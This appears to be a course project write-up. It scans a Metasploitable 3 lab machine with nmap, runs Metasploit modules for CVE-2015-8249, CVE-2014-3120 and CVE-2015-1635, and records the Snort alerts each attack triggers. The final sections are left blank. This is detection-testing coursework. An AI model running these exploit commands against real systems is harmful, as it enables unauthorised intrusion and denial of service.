 # Cyber Security Base - Course Project II
[https://cybersecuritybase.github.io](https://cybersecuritybase.github.io)

## Setup
* [Kali Linux](https://www.kali.org/)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3) with its requirements
* [Snort](https://www.snort.org/) installed on the Kali
* [Metasploit Community](https://www.rapid7.com/products/metasploit/download/)

## Initial scan
Target ip in all cases: 172.28.128.3.
### Using Metasploit Framework
Command: `nmap -v -sV 172.28.128.3 -oA subnet_1`
#### Results
     Nmap scan report for 172.28.128.3
     Host is up (0.00022s latency).
     Not shown: 989 filtered ports
     PORT      STATE SERVICE  VERSION
     21/tcp    open  ftp      Microsoft ftpd
     22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
     80/tcp    open  http     Microsoft IIS httpd 7.5
     3000/tcp  open  http     WEBrick httpd 1.3.1 (Ruby 2.3.1 (2016-04-26))
     4848/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
     8022/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
     8080/tcp  open  http     Sun GlassFish Open Source Edition  4.0
     8383/tcp  open  ssl/http Apache httpd
     9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Fantastic Four; Lucene 4.7)
     49153/tcp open  msrpc    Microsoft Windows RPC
     49154/tcp open  msrpc    Microsoft Windows RPC
     MAC Address: 08:00:27:B3:15:40 (Oracle VirtualBox virtual NIC)
     Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

## Three attacks that Snort identifies
### ManageEngine - CVE-2015-8249
#### Commands in the msf
     use exploit/windows/http/manageengine_connectionid_write
     set rhost 172.28.128.3
     exploit

#### Results in the Snort alert log
##### SID 34716 enabled
     [**] [1:34716:3] SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**]
     [Classification: Web Application Attack] [Priority: 1] 
     04/09-18:44:37.158501 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x4422
     172.28.128.1:38083 -> 172.28.128.3:8020 TCP TTL:128 TOS:0x0 ID:9200 IpLen:20 DgmLen:17428 DF
     ***A**** Seq: 0xA630394  Ack: 0xFDB044A7  Win: 0xE200  TcpLen: 32
     [Xref => http://osvdb.org/show/osvdb/121816][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2015-8249]

### ElasticSearch - CVE-2014-3120
#### Commands in the msf
     use exploit/multi/elasticsearch/script_mvel_rce
     set rhost 172.28.128.3
     exploit
    
#### Results in the Snort alert log
##### SIDs 36256 and 33830 enabled
     [**] [1:36256:1] SERVER-OTHER ElasticSearch information disclosure attempt [**]
     [Classification: Potential Corporate Privacy Violation] [Priority: 1] 
     04/09-19:49:07.741894 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x189
     172.28.128.1:46517 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:10371 IpLen:20 DgmLen:379 DF
     ***AP*** Seq: 0x7871FD5A  Ack: 0x603FC539  Win: 0xE5  TcpLen: 32
     TCP Options (3) => NOP NOP TS: 9491928 1410943 
     [Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]


     [**] [1:36256:1] SERVER-OTHER ElasticSearch information disclosure attempt [**]
     [Classification: Potential Corporate Privacy Violation] [Priority: 1] 
     04/09-19:49:08.669252 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x181
     172.28.128.1:46523 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:22709 IpLen:20 DgmLen:371 DF
     ***AP*** Seq: 0xEBB68E74  Ack: 0x5E61650E  Win: 0xE5  TcpLen: 32
     TCP Options (3) => NOP NOP TS: 9492160 1411036 
     [Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

     [**] [1:36256:1] SERVER-OTHER ElasticSearch information disclosure attempt [**]
     [Classification: Potential Corporate Privacy Violation] [Priority: 1] 
     04/09-19:49:08.697926 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x189
     172.28.128.1:45915 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:42194 IpLen:20 DgmLen:379 DF
     ***AP*** Seq: 0xDF957218  Ack: 0x7B51DA0A  Win: 0xE5  TcpLen: 32
     TCP Options (3) => NOP NOP TS: 9492167 1411039 
     [Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

     [**] [1:33830:2] SERVER-OTHER ElasticSearch script remote code execution attempt [**]
     [Classification: Attempted User Privilege Gain] [Priority: 1] 
     04/09-19:49:08.721584 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x5EA
     172.28.128.1:33297 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:54254 IpLen:20 DgmLen:1500 DF
     ***A**** Seq: 0x2AAC0522  Ack: 0x9E85494E  Win: 0xE5  TcpLen: 32
     TCP Options (3) => NOP NOP TS: 9492173 1411042 
     [Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

### IIS - HTTP - CVE-2015-1635
#### Commands in the msf
     use auxiliary/dos/http/ms15_034_ulonglongadd
     set rhost 172.28.128.3
     exploit

#### Results in the Snort alert log
##### SID 34061 enabled
     [**] [1:34061:3] SERVER-IIS Microsoft IIS Range header integer overflow attempt [**]
     [Classification: Attempted Denial of Service] [Priority: 2] 
     04/09-22:05:31.382374 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0xD8
     172.28.128.1:36419 -> 172.28.128.3:80 TCP TTL:128 TOS:0x0 ID:1364 IpLen:20 DgmLen:202 DF
     ***AP*** Seq: 0x7EEE4D57  Ack: 0x1FAA7483  Win: 0x400  TcpLen: 32
     [Xref => http://technet.microsoft.com/en-us/security/bulletin/ms15-034][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2015-1635][Xref => http://www.securityfocus.com/bid/74013]

## Two attacks that Snort doesn't identify
### 1
### 2

## Is it easier to fix the application than to detect attacks?
